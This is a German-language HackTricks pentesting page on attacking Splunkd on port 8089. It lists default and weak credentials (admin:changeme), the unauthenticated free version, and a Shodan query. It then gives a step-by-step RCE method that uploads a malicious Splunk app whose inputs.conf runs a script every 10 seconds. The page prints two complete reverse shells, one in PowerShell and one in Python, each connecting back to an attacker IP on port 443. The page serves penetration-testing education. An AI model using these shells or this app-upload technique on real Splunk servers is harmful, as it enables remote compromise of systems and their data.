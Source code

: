# 8089 - Pentesting Splunkd

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Grundinformationen**

* Protokollanalyse-Tool, das zur Datensammlung, -analyse und -visualisierung verwendet wird
* Häufig in der Sicherheitsüberwachung und Geschäftsanalyse eingesetzt
* Standardports:
* Webserver: 8000
* Splunkd-Dienst: 8089

### Schwachstellenvektoren:

1. Ausnutzung der kostenlosen Version

* Testversion wird nach 60 Tagen automatisch in die kostenlose Version umgewandelt
* Kostenlose Version hat keine Authentifizierung
* Potenzielles Sicherheitsrisiko, wenn sie nicht verwaltet wird
* Administratoren könnten die Sicherheitsimplikationen übersehen

2. Schwächen bei Anmeldeinformationen

* Ältere Versionen: Standardanmeldeinformationen `admin:changeme`
* Neuere Versionen: Anmeldeinformationen werden während der Installation festgelegt
* Potenzial für die Verwendung schwacher Passwörter (z. B. `admin`, `Welcome`, `Password123`)

3. Möglichkeiten zur Remote-Code-Ausführung

* Mehrere Methoden zur Codeausführung:
* Serverseitige Django-Anwendungen
* REST-Endpunkte
* Skriptbasierte Eingaben
* Alarmierungsskripte
* Plattformübergreifende Unterstützung (Windows/Linux)
* Skriptbasierte Eingaben können ausführen:
* Bash-Skripte
* PowerShell-Skripte
* Batch-Skripte

Wichtiges Ausnutzungspotenzial:

* Speicherung sensibler Daten
* Fehlende Authentifizierung in der kostenlosen Version
* Mehrere Vektoren für potenzielle Remote-Code-Ausführung
* Möglichkeit, skriptbasierte Eingaben für die Kompromittierung des Systems zu nutzen

### Shodan

* `Splunk build`

## RCE

### Erstellen einer benutzerdefinierten Anwendung

Splunk bietet eine ausgeklügelte Methode zur Remote-Code-Ausführung durch die Bereitstellung benutzerdefinierter Anwendungen, die seine plattformübergreifenden Skriptingfähigkeiten nutzen. Die grundlegende Ausnutzungstechnik dreht sich um die Erstellung einer bösartigen Anwendung, die Reverse-Shells auf sowohl Windows- als auch Linux-Systemen ausführen kann.

Eine benutzerdefinierte Anwendung kann **Python-, Batch-, Bash- oder PowerShell-Skripte** ausführen. Darüber hinaus **kommt Splunk mit installiertem Python**, sodass Sie selbst auf **Windows**-Systemen Python-Code ausführen können.

Sie können [**dieses**](https://github.com/0xjpuff/reverse_shell_splunk) Beispiel mit dem **`bin`** verwenden, das Beispiele für [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) und [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1) enthält. Oder Sie könnten Ihre eigene erstellen.

Der Ausnutzungsprozess folgt einer konsistenten Methodik über Plattformen hinweg:
```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```
Die kritische Konfigurationsdatei `inputs.conf` aktiviert das Skript durch:

* Festlegen von `disabled = 0`
* Konfigurieren eines 10-Sekunden-Ausführungsintervalls
* Definieren des Quelltyps des Skripts

Die Bereitstellung ist unkompliziert:

1. Erstellen Sie das bösartige Anwendungs-Paket
2. Richten Sie einen Listener (Netcat/socat) auf der angreifenden Maschine ein
3. Laden Sie die Anwendung über die Schnittstelle von Splunk hoch
4. Auslösen der automatischen Skriptausführung nach dem Hochladen

Beispiel für eine Windows PowerShell Reverse Shell:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()
```
Beispiel für eine Linux Python Reverse Shell:
```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```
### RCE & Privilegieneskalation

Auf der folgenden Seite finden Sie eine Erklärung, wie dieser Dienst missbraucht werden kann, um Privilegien zu eskalieren und Persistenz zu erlangen:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## Referenzen

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
